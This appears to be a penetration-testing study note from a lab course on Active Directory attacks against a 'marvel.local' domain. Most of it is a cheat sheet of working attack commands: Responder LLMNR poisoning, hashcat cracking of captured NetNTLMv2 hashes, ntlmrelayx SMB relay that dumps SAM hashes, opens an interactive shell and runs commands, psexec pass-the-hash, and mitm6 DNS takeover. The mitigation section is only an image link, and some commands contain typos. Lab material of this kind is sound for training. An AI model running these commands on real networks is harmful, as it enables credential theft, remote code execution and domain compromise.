# Active Directory Initial Attacks

# LLMNR Poisioning
    1. Run Responder
        a. Sudo responder -l tun0/eth0 -dwp
    2. From PUNISHER machine go to file share ip will point to the attacker machine
    3. Step 3 Get DEM hash on the responder
    4. Crack the captured hash using hashcat
        a. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
        b. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show [POT file of previously cracked hash]
        c. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force [force run on VM]
        d. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -O [optimise]
        e. Rockyou2021 --> latest rock you
        f. sudo responder -I eth0 -dPv ( Command that I used )





## Mitigation of LLMNR attack



# SMB Relay Attack

    1. Identify Host without SMB Signing
        a. Nmap --script=smb2-security-mode.nse -p445 <ip>
    2. Run Responder
        a. Edit responder.conf
            i. Sudo mousepad /etc/responder/Responder.conf and turn off http and smb
        b. Run responder
            i. Sudo responder -I eth0 -dwP
    3. Set up relay using Ntlmrelayx.py ( install using pimp my linux)
        a. Ntlmrelays.py -tf targets.txt -smb2support --dump-hashes dumps hashes
    4. Make a connection request to attacker machine same as LLMNR
        a. Capture SAM hashes on the responder 

    Other
    1.  Ntlmrelays.py -tf targets.txt -smb2support -I (get interactive shell)
    2. Nc <ip> <host> [connect to the above created shell]
    3. Ntlmrelays.py -tf targets.txt -smb2support -c "whoami" (run command)    





Switch of SMB and HTTP Flags in /etc/reponsder/Responder.conf









# Gaining Shell access

        1. Through Metasploit
            a. Exploit(windows/smb/psexec)
                i. Both password and hash can be used to take access
        2. Psexec.py
            a. Password: Psexec.py marvel.local/fcastle:'password1'@<ip>
            b. Hash: psexec.py administrator@<IP> -hashes <hashdump>
        3. Wmiexec.py
        4. Smbexec.py





# DNS Takeover Attack
    Tool: mitm6
    Installed in pimp my kali
    
    
    Ntlmrelayx.py  -6 -t ldaps://192.168.138.149 -wh fakewpad.marvel.local -l lootme
    Sudo Mimt6 -d marvel.local





